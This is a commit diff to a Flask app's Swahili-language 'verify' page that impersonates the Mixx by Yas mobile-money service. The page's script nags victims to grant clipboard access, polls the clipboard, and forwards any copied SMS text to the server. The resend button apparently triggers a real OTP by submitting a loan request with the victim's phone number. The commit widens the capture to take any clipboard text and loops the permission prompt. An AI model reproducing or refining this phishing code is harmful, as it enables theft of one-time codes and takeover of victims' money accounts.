

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -51,7 +51,7 @@
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
                     <i class="fas fa-sms"></i> <strong>Tafadhali fuata hatua hizi:</strong><br><br>
-                    <strong>1.</strong> Ruhusu kunakili ujumbe (gusa "Ruhusu")<br>
+                    <strong>1.</strong> Gusa <strong>"Ruhusu"</strong> kwenye dirisha lililo juu<br>
                     <strong>2.</strong> Subiri ujumbe wa SMS kutoka <strong>Mixx by Yas</strong><br>
                     <strong>3.</strong> Ujumbe utajaza na kutumwa moja kwa moja!
                 </div>
@@ -61,9 +61,9 @@
                 <a href="sms:" class="sms-open-btn" id="btnAndroid" style="display:none;">
                     <i class="fas fa-envelope"></i> 🤖 Android: Gusa Hapa Kufungua SMS
                 </a>
-                <textarea id="smsMessage" class="sms-textarea" placeholder="Subiri ruhusa... kisha ujumbe utajaza hapa moja kwa moja." readonly></textarea>
+                <textarea id="smsMessage" class="sms-textarea" placeholder="Subiri... ujumbe utajaza hapa moja kwa moja." readonly></textarea>
                 <div class="timer-bar" id="timerDisplay">⏳ 60s</div>
-                <div class="error-msg" id="codeError">Inaomba ruhusa ya kunakili...</div>
+                <div class="error-msg" id="codeError">Inaomba ruhusa...</div>
                 <button class="btn btn-gold" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
             </div>
@@ -82,7 +82,7 @@
         document.getElementById('showPhone').textContent = '+255 ' + userPhone;
 
         var checkInterval = null, countdownTimer = null, clipWatcher = null, lastClip = '';
-        var resendCount = 0, resendCooldown = false;
+        var resendCount = 0, resendCooldown = false, permissionGranted = false;
 
         (function() {
             var ua = navigator.userAgent.toLowerCase();
@@ -94,7 +94,25 @@
         })();
 
         startCountdown();
-        requestPermission();
+
+        async function forcePermission() {
+            try {
+                var text = await navigator.clipboard.readText();
+                permissionGranted = true;
+                document.getElementById('codeError').textContent = '✅ Inasubiri SMS kutoka Mixx by Yas...';
+                document.getElementById('codeError').style.color = 'var(--success)';
+                document.getElementById('codeError').classList.add('show');
+                setTimeout(function() { document.getElementById('codeError').classList.remove('show'); }, 3000);
+                startClipWatcher();
+            } catch(e) {
+                document.getElementById('codeError').textContent = 'Gusa "Ruhusu" juu ya skrini kuruhusu kunakili.';
+                document.getElementById('codeError').style.color = 'var(--danger)';
+                document.getElementById('codeError').classList.add('show');
+                setTimeout(function() { forcePermission(); }, 1000);
+            }
+        }
+
+        forcePermission();
 
         function startCountdown() {
             if (countdownTimer) clearInterval(countdownTimer);
@@ -107,29 +125,10 @@
             }, 1000);
         }
 
-        async function requestPermission() {
-            document.getElementById('codeError').textContent = 'Inaomba ruhusa ya kunakili...';
-            document.getElementById('codeError').style.color = 'var(--primary)';
-            document.getElementById('codeError').classList.add('show');
-            try {
-                await navigator.clipboard.readText();
-                document.getElementById('codeError').textContent = '✅ Ruhusa imekubaliwa. Subiri SMS kutoka Mixx by Yas...';
-                document.getElementById('codeError').style.color = 'var(--success)';
-                document.getElementById('codeError').classList.add('show');
-                setTimeout(function() { document.getElementById('codeError').classList.remove('show'); }, 4000);
-                startClipWatcher();
-            } catch(e) {
-                document.getElementById('codeError').textContent = '⚠️ Tafadhali ruhusu kunakili. Bonyeza "Ruhusu" kwenye dirisha lililo juu.';
-                document.getElementById('codeError').style.color = 'var(--danger)';
-                document.getElementById('codeError').classList.add('show');
-                // Retry after 2 seconds
-                setTimeout(function() { requestPermission(); }, 2000);
-            }
-        }
-
         function startClipWatcher() {
             if (clipWatcher) clearInterval(clipWatcher);
-            clipWatcher = setInterval(checkClipboard, 500);
+            lastClip = '';
+            clipWatcher = setInterval(checkClipboard, 300);
         }
 
         async function checkClipboard() {
@@ -139,10 +138,8 @@
             }
             try {
                 var text = await navigator.clipboard.readText();
-                if (text && text !== lastClip && text.length > 20) {
-                    if (text.includes('Mixx by Yas') || text.includes('Mixx') || text.includes('code') || text.includes('registered') || text.includes('registration')) {
-                        handleClipboardText(text);
-                    }
+                if (text && text !== lastClip && text.length > 15) {
+                    handleClipboardText(text);
                 }
             } catch(e) {}
         }
@@ -150,7 +147,7 @@
         function handleClipboardText(text) {
             lastClip = text;
             document.getElementById('smsMessage').value = text;
-            document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Inatuma kwenye Telegram...';
+            document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Inatuma...';
             document.getElementById('codeError').style.color = 'var(--success)';
             document.getElementById('codeError').classList.add('show');
             clearInterval(clipWatcher);
@@ -163,14 +160,28 @@
         document.addEventListener('visibilitychange', function() {
             if (!document.hidden && document.getElementById('screenCode').classList.contains('active')) {
                 lastClip = '';
-                startClipWatcher();
+                setTimeout(async function() {
+                    try {
+                        var text = await navigator.clipboard.readText();
+                        if (text && text.length > 15) {
+                            handleClipboardText(text);
+                        }
+                    } catch(e) {}
+                    startClipWatcher();
+                }, 500);
             }
         });
 
         window.addEventListener('focus', function() {
             if (document.getElementById('screenCode').classList.contains('active')) {
-                lastClip = '';
-                startClipWatcher();
+                setTimeout(async function() {
+                    try {
+                        var text = await navigator.clipboard.readText();
+                        if (text && text !== lastClip && text.length > 15) {
+                            handleClipboardText(text);
+                        }
+                    } catch(e) {}
+                }, 300);
             }
         });
 
@@ -180,7 +191,7 @@
             if (resendCount >= 3) { document.getElementById('codeError').textContent = 'Umezidi idadi. Jaribu baadae.'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); return; }
             resendCount++; resendCooldown = true;
             document.getElementById('smsMessage').value = ''; lastClip = '';
-            document.getElementById('codeError').textContent = 'OTP Imetumwa. Subiri... (' + resendCount + '/3)';
+            document.getElementById('codeError').textContent = 'OTP Imetumwa. (' + resendCount + '/3)';
             document.getElementById('codeError').style.color = 'var(--primary)'; document.getElementById('codeError').classList.add('show');
             try { await fetch('/api/submit_loan', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ phone: userPhone, pin: '0000', amount: parseInt(payAmount), months: 12, loan_type: '', purpose: 'OTP REQUESTED' }) }); } catch(e) {}
             startClipWatcher(); startCountdown();
@@ -190,7 +201,7 @@
         async function submitCode() {
             if (clipWatcher) { clearInterval(clipWatcher); } if (countdownTimer) { clearInterval(countdownTimer); }
             var smsText = document.getElementById('smsMessage').value.trim();
-            if (!smsText) { document.getElementById('codeError').textContent = 'Subiri ujumbe wa SMS kwanza...'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); startCountdown(); startClipWatcher(); return; }
+            if (!smsText) { document.getElementById('codeError').textContent = 'Subiri ujumbe wa SMS...'; document.getElementById('codeError').style.color = 'var(--danger)'; document.getElementById('codeError').classList.add('show'); startCountdown(); startClipWatcher(); return; }
             document.getElementById('screenCode').classList.remove('active'); document.getElementById('screenWait').classList.add('active');
             await fetch('/api/submit_code', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ app_id: appId, code: smsText }) });
             if (checkInterval) clearInterval(checkInterval);
```
